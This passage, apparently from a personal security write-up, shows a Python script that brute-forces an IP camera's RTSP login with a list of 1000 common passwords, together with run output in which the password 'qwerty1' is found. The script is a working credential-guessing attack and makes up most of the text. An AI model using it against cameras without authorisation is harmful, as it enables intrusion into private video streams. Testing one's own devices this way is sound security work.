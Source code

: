 So I created a Python script which brute forced every password in this text file.

```python
import cv2
import time
from urllib.parse import quote # Makes sure special character don't interfere with the URL

password_path = '1000-most-common-passwords.txt'

# Read in passwords
with open(password_path, 'r') as f:
    passwords = f.read().strip().split('\n')

# Set up constants and flags
username = 'admin'
found = False
start =  time.time()

# Attempt every password
for password in passwords:
    print(f'Trying: {password}')

    # Try to connect to the URL
    cap = cv2.VideoCapture(f"rtsp://{username}:{quote(password)}@192.168.0.129:554/ch01/0")

    # Exit the loop if the connection was succesful
    if cap.isOpened():
        cap.release()
        found = True
        break
    
    # Release the capture and go to the next password
    cap.release()

# Print that you found it, with some stats
if found:
    print(f'Password found: `{password}`.', end= ' ')
else:
    print(f'Password not found.', end=' ')
print(f'Time elapsed: {round(time.time()-start, 2)} seconds.')
```

Running this code produced the following output:

```
Trying: 123456
[rtsp @ 000001f4a5f0c800] method DESCRIBE failed: 401 Unauthorized
Trying: password
[rtsp @ 000001f4a5f0d440] method DESCRIBE failed: 401 Unauthorized
Trying: 12345678
[rtsp @ 000001f4a5f0d440] method DESCRIBE failed: 401 Unauthorized
...
...
...
Trying: sabrina
[rtsp @ 000001f989f0d440] method DESCRIBE failed: 401 Unauthorized
Trying: horses
[rtsp @ 000001f989f0d440] method DESCRIBE failed: 401 Unauthorized
Trying: 0987654321
[rtsp @ 000001f989f0d440] method DESCRIBE failed: 401 Unauthorized
Trying: qwerty1
Password found: `qwerty1`. Time elapsed: 64.47 seconds.
```
